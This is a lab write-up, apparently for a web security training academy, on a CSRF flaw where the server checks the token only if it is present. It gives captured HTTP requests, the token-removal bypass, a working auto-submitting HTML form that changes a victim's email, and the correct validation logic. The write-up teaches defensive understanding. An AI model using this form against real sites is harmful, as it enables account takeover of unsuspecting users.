

---

# 🧪 Lab: CSRF Where Token Validation Depends on Token Being Present

## 🎯 Goal

Change the victim’s email using a CSRF attack

---

## 🛠️ Steps (Manual Method using Burp Suite Community Edition)

---

## 1. Intercept the Request

* Log in with:

  ```
  wiener:peter
  ```
* Go to **My Account**
* Update email
* Capture request in Burp

Example request:

```
POST /my-account/change-email HTTP/1.1
Host: target
Content-Type: application/x-www-form-urlencoded

email=test@email.com&csrf=ABC123
```

---

## 2. Analyze the CSRF Protection

👉 Observations:

* CSRF token is present ✅
* If token is modified → request fails ❌

So initially it looks protected…

---

## 3. Find the Logic Flaw

Now test:

👉 **Remove the csrf parameter completely**

```
POST /my-account/change-email HTTP/1.1
Host: target
Content-Type: application/x-www-form-urlencoded

email=test@email.com
```

✅ Request is accepted

---

## 💡 Vulnerability Found

* Server validates token **only if it exists** ❌
* If token is missing → request is allowed ❌

👉 This is a **“token presence” validation flaw**

---

## 4. Create CSRF Exploit (Your Style – Manual)

Since token is not required, we simply omit it:

```html
<!DOCTYPE html>
<html>
<head>
    <title>CSRF PoC</title>
</head>
<body onload="document.forms[0].submit()">
    <form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
        <input type="hidden" name="email" value="tsega&#64;gmail.com">
    </form>
</body>
</html>
```

---

## 5. Host the Exploit

* Paste into exploit server
* Click **Store**

---

## 6. Test the Exploit

* Click **View exploit**
* Email changes automatically

---

## 7. Deliver to Victim

* Click **Deliver to victim**

✅ Lab solved

---

# 🧠 Why This Works

* Application checks:

  ```
  IF csrf exists → validate
  ELSE → allow
  ```

❌ Wrong logic

👉 Proper logic should be:

```
IF csrf missing → reject
```

---

# 🏁 Final Writeup

> Intercepted the email change request and observed that a CSRF token was present. Testing showed that modifying the token caused rejection, but removing the token entirely allowed the request to succeed. Crafted a CSRF exploit that omitted the csrf parameter and used an auto-submitting HTML form. The exploit successfully changed the victim’s email, confirming the vulnerability.

---


